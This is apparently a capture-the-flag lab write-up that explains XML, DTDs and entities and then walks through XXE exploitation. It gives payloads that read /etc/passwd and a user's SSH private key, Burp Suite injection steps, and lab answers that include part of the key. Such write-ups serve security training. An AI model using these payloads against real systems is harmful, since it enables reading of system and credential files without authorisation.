

# Task 12~16

# Extensible Markup Language

## Full form of XML

### Answer

Extensible Markup Language

## Is it compulsory to have XML prolog in XML documents?

### Answer

no

## Can we validate XML documents against a schema?

### Answer

yes

## How can we specify XML version and encoding in XML document?

### Answer

XML Prolog

# DTD

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named note.dtd with the following content:

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>

```

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.
Ex: Below is given an XML document that uses note.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```


So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

```
!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

NOTE: #PCDATA means parseable character data.
```

## How do you define a new ELEMENT?
### Answer

!ELEMENT

## How do you define a ROOT element?
### Answer

!DOCTYPE

## How do you define a new ENTITY?
### Answer

!ENTITY

# XXE Payload

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```


As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file **/etc/passwd**.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

# XML External Entity - Exploiting

```xml
<!DOCTYPE replace [<!ENTITY name "renan"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```


## What is the name of the user in /etc/passwd

1. Open Burpsuite
2. Turn on intercept
3. Inject XML attack
   ```xml
   <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
   ```
4. Send attack to repeater
5. Change **xxe** with a more human readable format

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### Answer

Found user **falcon**

## Where is falcon's SSH key located?
### Answer

```
/home/falcon/.ssh/id_rsa
```

## What are the first 18 characters for falcon's private key

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:////home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

### Answer

```
MIIEogIBAAKCAQEA7b
```

  
